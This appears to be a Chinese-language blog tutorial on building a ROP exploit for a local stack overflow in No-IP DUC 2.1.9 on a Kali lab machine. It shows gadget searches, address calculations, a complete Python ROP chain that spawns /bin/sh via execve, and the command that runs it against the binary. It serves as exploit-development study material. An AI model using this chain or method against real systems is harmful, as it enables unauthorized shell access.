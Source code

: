 title: 构造 NO IP(DUC) ROP exploit
date: 2016-03-29 10:53:49
tags: 缓冲区溢出
---
[No-IP Dynamic Update Client (DUC) 2.1.9 缓冲区溢出分析](http://huirong.github.io/2016/03/28/NoIP-StackOverflow/)，分析了漏洞成因和基本 POC 构造。
一般情况，应用程序的栈和堆是不可执行的，本文旨在编写通用的exploit。

# I、实验环境
 - 操作系统： kali 3.18.0-kali3-686-pae #1 SMP Debian 3.18.6-1~kali2
 - 调试工具：edb-debugger
 - ROP gadget 搜索工具：ropeme
 - 应用程序：[No-IP](https://www.exploit-db.com/apps/3b0f5f2ff8637c73ab337be403252a60-noip-duc-linux.tar.gz)

# II、exploit 结构
关于 ROP exploit 详细构造过程，请参考[ROP exploit 编写](http://huirong.github.io/2016/03/11/ROP-exploit/)。

## ① 参数分布
Linux 系统调用参数存放于 ebx,edx,esi,edi，因此
 - ebx：存放字符串"/bin/sh" 地址
 - ecx：存放指向 argp 数组的指针
 - edx：存放指向 envp 数组的指针
 - eax：系统调用号 0xb

## ② exploit 结构
1. 清零 eax
2. ecx 设置为 argp 数组指针
3. edx 设置为 anvp 数组指针
4. 将 "/bin/sh" 地址存放于 ebx
5. eax 值加 0xb
6. 执行系统调用,int 0x80
7. eax 清零
8. eax 加 1
9. ebx 清零
10. 执行系统调用，int 0x1

 <font color="red">Tips：</font> 7、8、9、10 正常退出shellcode，尽管没有这几个 gadgets，shellcode 依然可以新建shell，但要具有良好的编写习惯。
详细请参考 [Shellcoding for Linux and Windows Tutorial](http://www.vividmachines.com/shellcode/shellcode.html)

# III、搜索 ROP gadgets
## ① 查看 noip 关联的库
 - 查看 noip 进程号pid 
    ```
    ps -aux | grep noip
    ```
    ![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f2excag2rij30r206ntc5.jpg)

    进程 pid : 6589

 - 查看对应 pid 的映射表maps
    cat /proc/pid/maps
    ```
    cat /proc/6589/maps
    ```
    ![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f2exjrkobmj30pd0f1do1.jpg)

## ② 调用 ropeme generate 函数
系统库函数 /lib/i386-linux-gnu/i686/cmov/libc-2.19.so 包含丰富的 gadgets，足够组成 ROP exploit，因此选择搜索库函数 /lib/i386-linux-gnu/i686/cmov/libc-2.19.so。

 <font color="red">此库函数的起始地址 ：0xb7e15000需用此地址计算 gadgets 的绝对地址。</font>
 
```
generate /lib/i386-linux-gnu/i686/cmov/libc-2.19.so 4
```
 ![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f2exwnv2q3j30lw08cmzi.jpg)

## ③ 搜索 xor eax,eax;ret;
```
search xor eax %
```
![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f2exzlzap0j30kb0entcl.jpg)

结果集中的所有 gadgets 地址都是相对地址
<font color="red">绝对地址 = 相对地址 + 库函数起始地址</font> 

选取 0x2ed2cL: xor eax eax ;;
绝对地址 ：0xb7e15000 + 0x2ed2c = 0xb7e43d2c
## ④ 搜索其他 gadgets，并生成 exploit
以同样的方式搜索其他 gadgets ，并计算绝对地址。

前文介绍，返回地址的偏移量为：296，因此要先填充 296 个 '\x90'。
最后 exploit：
```
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''
p += '\x90'*296

p += pack('<I', 0xb7f01e30) # 0xece30L: pop ecx ; pop eax ;;
p += '/bin'
p += pack('<I', 0x08052140) # @ .data
p += pack('<I', 0xb7e42ece) # 0x2deceL: mov [eax] ecx ;;

p += pack('<I', 0xb7f01e30) # 0xece30L: pop ecx ; pop eax ;;
p += '//sh'
p += pack('<I', 0x08052144) # @ .data + 4
p += pack('<I', 0xb7e42ece) # 0x2deceL: mov [eax] ecx ;;

p += pack('<I', 0xb7e43d2c) # 0x2ed2cL: xor eax eax ;;
p += pack('<I', 0xb7e16aa2) # 0x1aa2L: pop edx ;;
p += pack('<I', 0x08052148) # @ .data + 8
p += pack('<I', 0xb7f19611) # 0x104611L: mov [edx] eax ; xor eax eax ;;
p += pack('<I', 0xb7e430cb) # 0x2e0cbL: pop ecx ; pop edx ;;
p += pack('<I', 0x08052148) # @ .data + 8
p += pack('<I', 0x08052148) # @ .data + 8 
p += pack('<I', 0xb7e2e8ae) # 0x198aeL: pop ebx ;;
p += pack('<I', 0x08052140) # @ .data
p += pack('<I', 0xb7f56e56) # 0x141e56L: add eax 0xb ;;
p += pack('<I', 0xb7fdfce0) # 0xce0L: int 0x80 ;;

p += pack('<I', 0xb7e96547) # xor edx edx ; mov eax edx ;;
p += pack('<I', 0xb7eedfc2) # mov ebx edx ;;
p += pack('<I', 0xb7fdfd76) # 0xd76L: add al 0x1 ;;
p += pack('<I', 0xb7fdfce0) # 0xce0L: int 0x80 ;;

print p
```

# IV、以 ROP exploit 运行 noip
```
./NO-IP/noip-2.1.9-1/binaries/noip2-i686 -i "`./NO-IP/ropExp.py`"
```

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f2ey6al4fbj30kd05habx.jpg)

# V、参考文献
[No-IP Dynamic Update Client (DUC) 2.1.9 - Local IP Address Stack Overflow](https://www.exploit-db.com/exploits/25411/)
